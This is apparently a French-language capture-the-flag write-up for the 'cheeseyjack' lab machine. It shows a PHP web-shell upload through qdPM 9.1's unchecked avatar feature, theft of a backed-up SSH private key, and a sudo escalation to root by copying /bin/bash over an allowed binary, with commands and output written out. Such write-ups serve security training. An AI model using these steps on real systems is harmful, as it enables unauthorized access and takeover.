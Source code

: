 Sur [exploit-db](https://www.exploit-db.com/exploits/48460) on trouve la description d'une vulnérabilité pour *qdPM 9.1*. Il n'y a pas de code d'exploitation et pour cause, il suffit d'uploader un script PHP une fois authentifié en abusant la fonctionnalité de sélection d'un avatar qui ne vérifie pas les extensions de fichier.  

Une fois mon shell PHP uploadé un petit click droit me permet de retrouver son emplacement : */project\_management/uploads/users/179373-shell.php*  

Je remarque deux utilisateurs non privilégiés sur le système :  

```plain
ch33s3m4n:x:1000:1000:ch33s3m4n,,,:/home/ch33s3m4n:/bin/bash 
crab:x:1001:1001::/home/crab:/bin/bash
```

Le dernier dispose d'une TODO list intéressante :  

```plain
www-data@cheeseyjack:/var/www/html/project_management/uploads/users$ cat /home/crab/todo.txt  
1. Scold cheese for weak qdpm password (done) 
2. Backup SSH keys to /var/backups 
3. Change cheese's weak password 
4. Milk 
5. Eggs 
6. Stop putting my grocery list on my todo lists
```

Il y a en effet un fichier *key.bak* dans */var/backups*  qui correspond à la clé privée de cet utilisateur. Abusons en !  

Une fois connecté on remarque que l'utilisateur a des droits sudo pour un dossier sur lequel on a le contrôle :  

```plain
crab@cheeseyjack:~$ sudo -l 
Matching Defaults entries for crab on cheeseyjack: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User crab may run the following commands on cheeseyjack: 
    (ALL : ALL) ALL 
    (root) NOPASSWD: /home/crab/.bin/

crab@cheeseyjack:~$ ls -l /home/crab/.bin/ping 
-rwxr-xr-x 1 crab crab 72776 Sep 24  2020 /home/crab/.bin/ping
crab@cheeseyjack:~$ cp /bin/bash /home/crab/.bin/ping 
crab@cheeseyjack:~$ sudo /home/crab/.bin/ping -p 
root@cheeseyjack:/home/crab# id 
uid=0(root) gid=0(root) groups=0(root) 
root@cheeseyjack:/home/crab# cd /root 
root@cheeseyjack:~# ls 
root.txt 
root@cheeseyjack:~# cat root.txt  
                    ___ _____ 
                   /\ (_)    \ 
                  /  \      (_, 
                 _)  _\   _    \ 
                /   (_)\_( )____\ 
                \_     /    _  _/ 
                  ) /\/  _ (o)( 
                  \ \_) (o)   / 
                   \/________/     

WOWWEEEE! You rooted my box! Congratulations. If you enjoyed this box there will be more coming. 

Tag me on twitter @cheesewadd with this picture and i'll give you a RT!
```


*Published January 18 2022 at 13:29*